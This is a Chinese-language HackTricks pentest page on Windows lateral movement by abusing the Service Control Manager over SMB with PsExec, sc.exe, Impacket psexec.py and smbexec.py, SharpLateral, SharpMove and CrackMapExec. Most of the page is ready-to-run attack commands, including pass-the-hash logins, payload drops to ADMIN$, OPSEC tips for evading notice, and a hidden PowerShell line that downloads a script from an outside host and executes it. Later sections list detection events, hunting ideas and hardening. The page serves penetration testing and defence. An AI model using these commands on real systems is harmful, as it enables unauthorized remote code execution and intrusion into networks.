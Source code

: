 # PsExec/Winexec/ScExec/SMBExec

{{#include ../../banners/hacktricks-training.md}}

## 它们是如何工作的

这些技术通过 SMB/RPC 远程滥用 Windows 服务控制管理器 (SCM) 在目标主机上执行命令。常见流程如下：

1. 通过 SMB (TCP/445) 认证到目标并访问 ADMIN$ 共享。
2. 复制可执行文件或指定服务将运行的 LOLBAS 命令行。
3. 通过 SCM (MS-SCMR over \PIPE\svcctl) 远程创建一个指向该命令或二进制文件的服务。
4. 启动服务以执行有效载荷，并可选择通过命名管道捕获 stdin/stdout。
5. 停止服务并清理（删除服务和任何丢弃的二进制文件）。

要求/前提条件：
- 目标上的本地管理员 (SeCreateServicePrivilege) 或目标上的显式服务创建权限。
- 可访问 SMB (445) 和可用的 ADMIN$ 共享；通过主机防火墙允许远程服务管理。
- UAC 远程限制：使用本地帐户时，令牌过滤可能会阻止网络上的管理员访问，除非使用内置管理员或 LocalAccountTokenFilterPolicy=1。
- Kerberos 与 NTLM：使用主机名/FQDN 启用 Kerberos；通过 IP 连接通常会回退到 NTLM（并可能在加固环境中被阻止）。

### 通过 sc.exe 手动 ScExec/WinExec

以下展示了一种最小的服务创建方法。服务映像可以是丢弃的 EXE 或像 cmd.exe 或 powershell.exe 这样的 LOLBAS。
```cmd
:: Execute a one-liner without dropping a binary
sc.exe \\TARGET create HTSvc binPath= "cmd.exe /c whoami > C:\\Windows\\Temp\\o.txt" start= demand
sc.exe \\TARGET start HTSvc
sc.exe \\TARGET delete HTSvc

:: Drop a payload to ADMIN$ and execute it (example path)
copy payload.exe \\TARGET\ADMIN$\Temp\payload.exe
sc.exe \\TARGET create HTSvc binPath= "C:\\Windows\\Temp\\payload.exe" start= demand
sc.exe \\TARGET start HTSvc
sc.exe \\TARGET delete HTSvc
```
注意：
- 启动非服务 EXE 时，预计会出现超时错误；执行仍然会发生。
- 为了保持更好的 OPSEC，建议使用无文件命令（cmd /c, powershell -enc）或删除已丢弃的工件。

在此处找到更详细的步骤： https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/

## 工具和示例

### Sysinternals PsExec.exe

- 经典的管理工具，使用 SMB 在 ADMIN$ 中丢弃 PSEXESVC.exe，安装一个临时服务（默认名称 PSEXESVC），并通过命名管道代理 I/O。
- 示例用法：
```cmd
:: Interactive SYSTEM shell on remote host
PsExec64.exe -accepteula \\HOST -s -i cmd.exe

:: Run a command as a specific domain user
PsExec64.exe -accepteula \\HOST -u DOMAIN\user -p 'Passw0rd!' cmd.exe /c whoami /all

:: Customize the service name for OPSEC (-r)
PsExec64.exe -accepteula \\HOST -r WinSvc$ -s cmd.exe /c ipconfig
```
- 您可以通过 WebDAV 直接从 Sysinternals Live 启动：
```cmd
\\live.sysinternals.com\tools\PsExec64.exe -accepteula \\HOST -s cmd.exe /c whoami
```
OPSEC
- 留下服务安装/卸载事件（服务名称通常为 PSEXESVC，除非使用 -r），并在执行期间创建 C:\Windows\PSEXESVC.exe。

### Impacket psexec.py (类似 PsExec)

- 使用嵌入式 RemCom 类似服务。通过 ADMIN$ 投放一个临时服务二进制文件（通常是随机名称），创建一个服务（默认通常为 RemComSvc），并通过命名管道代理 I/O。
```bash
# Password auth
psexec.py DOMAIN/user:Password@HOST cmd.exe

# Pass-the-Hash
psexec.py -hashes LMHASH:NTHASH DOMAIN/user@HOST cmd.exe

# Kerberos (use tickets in KRB5CCNAME)
psexec.py -k -no-pass -dc-ip 10.0.0.10 DOMAIN/user@host.domain.local cmd.exe

# Change service name and output encoding
psexec.py -service-name HTSvc -codec utf-8 DOMAIN/user:Password@HOST powershell -nop -w hidden -c "iwr http://10.10.10.1/a.ps1|iex"
```
Artifacts
- 临时 EXE 在 C:\Windows\ (随机 8 个字符)。服务名称默认为 RemComSvc，除非被覆盖。

### Impacket smbexec.py (SMBExec)

- 创建一个临时服务，生成 cmd.exe 并使用命名管道进行 I/O。通常避免放置完整的 EXE 有效载荷；命令执行是半交互式的。
```bash
smbexec.py DOMAIN/user:Password@HOST
smbexec.py -hashes LMHASH:NTHASH DOMAIN/user@HOST
```
### SharpLateral 和 SharpMove

- [SharpLateral](https://github.com/mertdas/SharpLateral) (C#) 实现了几种横向移动方法，包括基于服务的执行。
```cmd
SharpLateral.exe redexec HOSTNAME C:\\Users\\Administrator\\Desktop\\malware.exe.exe malware.exe ServiceName
```
- [SharpMove](https://github.com/0xthirteen/SharpMove) 包括服务修改/创建以远程执行命令。
```cmd
SharpMove.exe action=modsvc computername=remote.host.local command="C:\windows\temp\payload.exe" amsi=true servicename=TestService
SharpMove.exe action=startservice computername=remote.host.local servicename=TestService
```
- 您还可以使用 CrackMapExec 通过不同的后端（psexec/smbexec/wmiexec）执行：
```bash
cme smb HOST -u USER -p PASS -x "whoami" --exec-method psexec
cme smb HOST -u USER -H NTHASH -x "ipconfig /all" --exec-method smbexec
```
## OPSEC, detection and artifacts

使用类似PsExec技术时的典型主机/网络伪影：
- 针对所用管理员帐户的安全4624（登录类型3）和4672（特殊权限）。
- 安全5140/5145文件共享和文件共享详细事件显示ADMIN$访问和服务二进制文件的创建/写入（例如，PSEXESVC.exe或随机8字符的.exe）。
- 目标上的安全7045服务安装：服务名称如PSEXESVC、RemComSvc或自定义（-r / -service-name）。
- Sysmon 1（进程创建）用于services.exe或服务映像，3（网络连接），11（文件创建）在C:\Windows\中，17/18（管道创建/连接）用于管道，如\\.\pipe\psexesvc、\\.\pipe\remcom_*或随机等效项。
- Sysinternals EULA的注册表伪影：HKCU\Software\Sysinternals\PsExec\EulaAccepted=0x1在操作员主机上（如果未被抑制）。

狩猎思路
- 当ImagePath包含cmd.exe /c、powershell.exe或TEMP位置时，对服务安装发出警报。
- 查找父映像为C:\Windows\PSEXESVC.exe或作为LOCAL SYSTEM运行的services.exe子进程的进程创建。
- 标记以-stdin/-stdout/-stderr结尾的命名管道或知名的PsExec克隆管道名称。

## Troubleshooting common failures
- 创建服务时访问被拒绝（5）：不是实际的本地管理员，UAC对本地帐户的远程限制，或EDR对服务二进制路径的篡改保护。
- 网络路径未找到（53）或无法连接到ADMIN$：防火墙阻止SMB/RPC或管理员共享被禁用。
- Kerberos失败但NTLM被阻止：使用主机名/FQDN连接（而不是IP），确保正确的SPN，或在使用Impacket时提供-k/-no-pass和票证。
- 服务启动超时但有效载荷已运行：如果不是实际的服务二进制文件则是预期的；将输出捕获到文件或使用smbexec进行实时I/O。

## Hardening notes (modern changes)
- Windows 11 24H2和Windows Server 2025默认要求出站（以及Windows 11入站）连接的SMB签名。这不会破坏使用有效凭据的合法PsExec使用，但会防止未签名的SMB中继滥用，并可能影响不支持签名的设备。
- 新的SMB客户端NTLM阻止（Windows 11 24H2/Server 2025）可以在通过IP连接或连接到非Kerberos服务器时防止NTLM回退。在强化环境中，这将破坏基于NTLM的PsExec/SMBExec；如果确实需要，请使用Kerberos（主机名/FQDN）或配置例外。
- 最小权限原则：最小化本地管理员成员资格，优先使用及时/足够管理员，强制执行LAPS，并监控/警报7045服务安装。

## See also

- 基于WMI的远程执行（通常更无文件）：
{{#ref}}
lateral-movement/wmiexec.md
{{#endref}}

- 基于WinRM的远程执行：
{{#ref}}
lateral-movement/winrm.md
{{#endref}}



## References

- PsExec - Sysinternals | Microsoft Learn: https://learn.microsoft.com/sysinternals/downloads/psexec
- Windows Server 2025和Windows 11中的SMB安全强化（默认签名，NTLM阻止）：https://techcommunity.microsoft.com/blog/filecab/smb-security-hardening-in-windows-server-2025--windows-11/4226591
{{#include ../../banners/hacktricks-training.md}}
